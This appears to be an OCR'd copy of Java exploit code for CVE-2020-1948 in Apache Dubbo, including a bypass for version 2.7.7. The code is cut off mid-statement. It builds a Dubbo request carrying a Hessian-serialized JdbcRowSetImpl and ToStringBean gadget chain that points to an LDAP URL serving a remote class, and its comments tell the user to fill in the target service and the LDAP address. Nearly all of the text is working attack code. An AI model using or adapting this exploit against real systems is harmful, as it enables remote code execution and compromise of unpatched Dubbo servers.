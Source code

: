 Exp：

```java
package org.example;

import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;
import org.example.utils.Reflections;

import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

/*
 * CVE-2020-1948
 * 2.5.x、[2.6.0, 2.6.7]、[2.7.0, 2.7.6]、2.7.7
 * 抓请求包看看数据
 */

public class CVE_2020_1948_bypass {
    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.7.7");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("");
        out.writeUTF("1.0");
        // dubbo 2.7.7版本绕过
        out.writeUTF("$echo");
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/lang/Object;");
        out.writeObject("foo");

        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:1389/remoteExploit8");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        HashMap attachments = new HashMap();
        attachments.put("pwn", item);
        out.writeObject(attachments);

        out.flushBuffer();
        if (out instanceof Cleanable) {
```